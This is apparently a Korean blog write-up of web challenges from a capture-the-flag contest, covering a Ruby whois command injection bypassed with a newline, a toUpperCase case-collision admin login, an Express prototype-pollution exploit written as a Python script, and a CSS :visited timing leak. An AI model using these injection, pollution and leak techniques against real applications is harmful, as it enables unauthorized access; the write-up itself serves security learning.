

AI로 딸깍나는 문제가 많이 없어서 재미있게 풀었다. 시험 전날이라 많이 못한게 좀 아쉽다.

---

## Who is He
```rb
require 'sinatra'
require 'open3'

set :bind, '0.0.0.0'
set :port, 4567

get '/' do
  erb :index
end

post '/lookup' do
  @domain = params[:domain]
  if @domain && @domain.match?(/^[a-z.-]+$/)
    stdout, stderr, status = Open3.capture3("whois #{@domain}")
    @result = stdout.empty? ? stderr : stdout
    @success = status.success?
  else
    @error = "Invalid domain format"
  end
  erb :result
end
```

ruby로 만들어진 문제였다.  
도메인을 받아서 whois data를 조회해주는 서비스가 주어지고
```
/readflag could you please give me the flag thank you so much
```

`/readflag` 바이너리 뒤에 플래그 좀 달라고 비는 문자열을 넣어서 실행하면 플래그가 나온다.
`/^[a-z.-]+$/` 이게 영어 소문자 + `.` + `-` 만 허용해서 커맨드 인젝션 하기가 어려운데, 개행문자 (`%0A`) 써서 줄바꿈 해주면 우회할 수 있다.

`TRX{wh4t_dO3s_h3_d0????}`

---

## StifflingFluffiness
```js
import crypto from "crypto";

export const SECRET = crypto.randomBytes(24).toString("hex");
export const ADMIN_USERNAME = "StifflingFluffiness";
export const MAIN_COLOR = "#e94f8b";
export const BACKGROUND_COLOR = "#ffe0e7";
```

```js
app.post("/login", (req, res) => {
  const { username } = req.body;

  if (!username || username.length < 4 || username.length > 12) {
    req.session.error = "Invalid username";
    return res.redirect("/");
  }

  req.session.username = username;
  req.session.isAdmin = username.toUpperCase() === ADMIN_USERNAME.toUpperCase();
  res.redirect("/");
});
```

소스코드가 상당히 간단하다.

`StifflingFluffiness` 계정으로 로그인하면 어드민 계정을 얻을 수 있고 플래그를 준다.  
`username.toUpperCase() === ADMIN_USERNAME.toUpperCase();` `toUppercase()`로 바꿔서 비교하기 때문에 case mapping collision으로 풀 수 있다.



`TRX{m4yb3_my_fluffy_bl0g_n33d3d_b3773r_s3curi7y}`

---

## junkiness

```js
const express = require("express");
const session = require("express-session");
const crypto = require("crypto");
const path = require("path");

const FLAG = process.env.FLAG || "TRX{fake_flag}";
const PORT = process.env.PORT || 3000;
const SECRET = crypto.randomBytes(24).toString("hex");

const app = express();

app.use(
    session({
        secret: SECRET,
        resave: false,
        saveUninitialized: true,
        cookie: { secure: false },
    }),
);
app.use(express.urlencoded({ extended: true }));
app.use(express.static(path.join(__dirname, "public")));

const users = {};

app.post("/register", (req, res) => {
    if (!req.body) {
        return res.status(400).json({ message: "Invalid request." });
    }

    const { username, password } = req.body;
    console.log(username)

    if (!username || !password) {
        return res.status(400).json({ message: "Username and password required." });
    }

    if (username.length > 8) {
        return res.status(400).json({ message: "Username must not be longer than 8 characters." });
    }

    if (/\W/.test(username)) {
        return res.status(400).json({ message: "Username must be an alphanumeric string." });
    }

    if (Object.keys(users).includes(username)) {
        return res.status(409).json({ message: "User already exists." });
    }

    console.log({ username, password, isAdmin: false })
    users[username] = { username, password, isAdmin: false };
    res.status(201).json({ message: "User registered successfully." });
});

app.post("/login", (req, res) => {
    if (!req.body) {
        return res.status(400).json({ message: "Invalid request." });
    }

    const { username, password } = req.body;

    if (!username || !password) {
        return res.status(400).json({ message: "Username and password required." });
    }

    const user = users[username];
    console.log(user)

    if (!user) {
        return res.status(404).json({ message: "User not found." });
    }

    if (user.password !== password) {
        return res.status(401).json({ message: "Invalid password." });
    }

    req.session.user = user;
    res.json({ message: "Login successful." });
});

app.get("/flag", (req, res) => {
    if (req.session.user && req.session.user.isAdmin) {
        res.json(FLAG);
    } else {
        res.status(403).json({ message: "Forbidden: Admins only." });
    }
});

app.post("/logout", (req, res) => {
    req.session.destroy(() => {
        res.json({ message: "Logged out." });
    });
});

app.listen(PORT, () => {
    console.log(`Server running on http://0.0.0.0:${PORT}`);
});
```

prototype pollution이 발생할거 같이 생겼다.  
express 바디에 아무 타입이나 넣을 수 있는거랑 엮어서 user 오염시켜주면 된다.

```py
import requests

url = 'http://localhost:3000'
r = requests.Session()

r.post(url + '/register', data={
    'username[]': '__proto__',
    'password[isAdmin]': 'true',
    'password[password]': 'test',
})

r.post(url + '/login', data={
    'username': 'password',
    'password': 'test',
})

print(r.get(url + '/flag').text)
```

`TRX{j4v4scrip7_c4n_b3_j4nky_s0m37im3s}`

---

## short-notes

---


## markdown2

---

## are xsleaks dead
이게 로되리안이 왜 터진건지는 아직까지 모르겠다.


출제자분 피셜 `window.open()`을 했을때 404와 200이 갈리는걸 타이밍 측정으로 익스가 가능했다고 하셨고, 알고 있던 기법인지라 로컬에서 GPT랑 금방 풀었다.  
근데 이게 리모트에선 무슨짓을 해도 타이밍이 똑바로 안갈렸다. 이렇게 푼 사람이 채팅에서 안보였던거 보면.. 서버 속도 이슈때메 모두에게 이 방법으론 익스가 어려웠던거 아닐까 싶다.

언인텐을 좀 알아보자면 `:visited`로 판별할 수가 있었다.
```html
<html>
    <style>
        a:link {
        color: blue;
        }

        a:visited {
        color: purple;
        }
    </style>
    <body>
        <a href="https://blog.xss.kr">AAAAAAA...</a>
    </body>
</html>
```

[XS-Leak Wiki](https://xsleaks.dev/docs/attacks/css-tricks/)에도 나와있는 꽤나 메이저한 기법이다.
a태그에 글자를 몇천개 정도 넣어놓고 `:visited` 속성을 적용한다. status 200이면 봇이 visited를 트리거 하게 되고 a태그 글자색을 바꿔버려서 딜레이가 생기고 그걸로 타이밍 판별하는 원리다.


